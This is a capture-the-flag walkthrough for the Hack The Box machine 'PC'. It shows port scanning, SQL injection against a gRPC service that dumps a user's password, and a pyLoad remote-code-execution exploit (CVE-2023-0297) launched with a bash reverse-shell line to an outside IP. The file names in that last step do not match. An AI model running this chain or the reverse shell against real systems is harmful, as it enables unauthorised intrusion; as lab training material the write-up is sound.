



# PC

- **Platform:** Hack The Box
- **URL:** https://app.hackthebox.com/machines/PC
- **Difficulty:** Easy
- **OS:** Linux

## Enumeration

### Port & Service Enumeration

<details>
<summary>masscan</summary>

```
sudo masscan -p1-65535,U:1-65535 10.10.11.214 --rate=1000 -e tun0

Discovered open port 22/tcp on 10.10.11.214
Discovered open port 50051/tcp on 10.10.11.214
```
</details>

<details>
<summary>nmap</summary>

```
nmap -sC -sV -p22,50051 -Pn 10.10.11.214

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 91:bf:44:ed:ea:1e:32:24:30:1f:53:2c:ea:71:e5:ef (RSA)
|   256 84:86:a6:e2:04:ab:df:f7:1d:45:6c:cf:39:58:09:de (ECDSA)
|_  256 1a:a8:95:72:51:5e:8e:3c:f1:80:f5:42:fd:0a:28:1c (ED25519)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port50051-TCP:V=7.94%I=7%D=9/5%Time=64F6F7C7%P=aarch64-unknown-linux-gn
SF:u%r(NULL,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff
SF:\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(Ge
SF:nericLines,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\x
SF:ff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(
SF:GetRequest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\x
SF:ff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(
SF:HTTPOptions,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\
SF:xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r
SF:(RTSPRequest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff
SF:\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%
SF:r(RPCCheck,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\x
SF:ff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(
SF:DNSVersionBindReqTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05
SF:\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\
SF:?\0\0")%r(DNSStatusRequestTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\
SF:xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0
SF:\0\0\0\0\?\0\0")%r(Help,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\
SF:x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0
SF:\0\?\0\0")%r(SSLSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff
SF:\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\
SF:0\0\0\?\0\0")%r(TerminalServerCookie,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0
SF:\?\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\
SF:x08\0\0\0\0\0\0\?\0\0")%r(TLSSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x0
SF:4\0\?\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x
SF:04\x08\0\0\0\0\0\0\?\0\0")%r(Kerberos,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\
SF:0\?\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04
SF:\x08\0\0\0\0\0\0\?\0\0")%r(SMBProgNeg,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\
SF:0\?\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04
SF:\x08\0\0\0\0\0\0\?\0\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>


## Foothold

### gRPC → `sau` 🚩

#### Searching for Vulnerabilities

- according to Google, port `50051` is used by gRPC
- connecting with [grpcurl](https://github.com/fullstorydev/grpcurl) shows that the port is indeed used by gRPC:
    
    ```
    ./grpcurl -plaintext 10.10.11.214:50051 list
    
    SimpleApp
    grpc.reflection.v1alpha.ServerReflection
    ```
- [grpcui](https://github.com/fullstorydev/grpcui) provides a Web UI, which makes interaction with the gRPC server easier:
    
    ```
    go run ./cmd/grpcui/grpcui.go -plaintext 10.10.11.214:50051
    ```

#### Exploitation

1. Using `grpcui`, we can create a user account with the `RegisterUser` method:
    
    <p align="center"></p>

2. Log in via the `LoginUser` method, the response contains `id` and `token`:

    <p align="center"></p>

3. We can add the token as metadata and call the `getInfo` method, while intercepting the POST request with burpsuite:

    <p align="center"></p>

4. `sqlmap -r request` shows that an SQL injection is possible, we can use the `--dump` flag to output the database entries:
    
    ```
    +------------------------+----------+
    | password               | username |
    +------------------------+----------+
    | admin                  | admin    |
    | HereIsYourPassWord1431 | sau      |
    +------------------------+----------+
    ```

5. We can use the password `HereIsYourPassWord1431` to connect via SSH as `sau`. 🚩

## Privilege Escalation

### `sau` → `root` 🏁

#### Searching for Vulnerabilities

- `ss -tlpn` shows that the port `8000` is open locally
- we can use SSH to forward the port to our local machine:
    
    ```
    ssh -L 12345:localhost:8000 sau@10.10.11.214
    ```
- Now scanning the port with nmap shows, that there is a web server running. Opening the webpage in a browser reveals that this is a pyLoad instance for which an RCE exploit exists *(CVE-2023-0297)*
    - https://www.exploit-db.com/exploits/51532

#### Exploitation

1. On the target, we can create a script `/tmp/shell.sh` for starting a reverse shell:
    
    ```bash
    #!/bin/bash

    /bin/sh -i >& /dev/tcp/10.10.16.3/9002 0>&1
    ```

2. Then we can use the [exploit](https://www.exploit-db.com/exploits/51532) to start a reverse shell:
    ```bash
    python3 51532.py -u http://127.0.0.1:12345 -c 'bash /tmp/bash.sh'
    ```

3. We now have reverse shell access as `root`. 🏁